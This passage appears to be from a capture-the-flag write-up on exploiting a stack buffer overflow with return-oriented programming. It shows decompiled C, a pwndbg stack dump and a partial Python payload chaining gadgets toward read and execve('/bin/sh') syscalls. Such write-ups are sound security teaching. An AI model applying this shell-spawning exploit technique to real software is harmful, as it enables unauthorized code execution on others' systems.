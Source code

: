 ```c
void empty(char *buf) {
  int i;

  for (i = 0; i < 18; i = i + 4) {
    *(undefined4 *)(buf + (long)i * 4) = 0xc3f48948;
  }
  return;
}
```

**Note**: `empty` does not complicates things, since it just fills some space which would be padding anyway. If for example we fill the buffer with 64 'A' characters, the stack would look like this:

```assembly
pwndbg> x/30gx $rsp
0x7fffffffdf80: 0x00007fffffffe0f8      0x0000000100000002
0x7fffffffdf90: 0x41414141c3f48948      0x4141414141414141
0x7fffffffdfa0: 0x41414141c3f48948      0x4141414141414141
0x7fffffffdfb0: 0x41414141c3f48948      0x4141414141414141
0x7fffffffdfc0: 0x41414141c3f48948      0x4141414141414141
0x7fffffffdfd0: 0x00000000c3f48948      0x0000000000401199
pwndbg> info frame
Stack level 0, frame at 0x7fffffffdfe0:
 rip = 0x400c0e in main; saved rip = 0x401199
 called by frame at 0x7fffffffe0e0
 Arglist at 0x7fffffffdfd0, args:
 Locals at 0x7fffffffdfd0, Previous frame's sp is 0x7fffffffdfe0
 Saved registers:
  rbp at 0x7fffffffdfd0, rip at 0x7fffffffdfd8
```

`sEBP` is overwritten, but we do not need it anyway.

### What to do

We know that we can perform a buffer overflow, but still we need to leak and put on the stack the canary (if present), and execute at least two syscalls: one to read `/bin/sh` and put it in memory, the other one to execute `execve(/bin/sh, 0, 0);`. We also need to find some gadgets to setup the registers to run a syscall. Weirdly `ropper` won't find useful gadgets, while `ROPgadgets` works just fine.

Note that in order to do that we need to restart the execution from main, since the read only takes 137 bytes and our exploit is longer than that. Since the binary is not `PIE`, this is possible without leaking any address at runtime.

### The exploit

The payload is made up by some padding necessary to reach `sEIP`. Then there is a first payload which is used to call a `read` to put in the heap `/bin/sh`, then we'll pass the string to put it in memory (at an arbitrary address decided by us):

```python
padding = b'A'*64
payload = b''
payload += padding
payload += b'B'*8
params = [
    # read
    pop_rdx_rsi['address'],
    8,
    binsh_addr,
    pop_rdi['address'],
    0,
    syscall_ret['address'],
    main_addr
]
```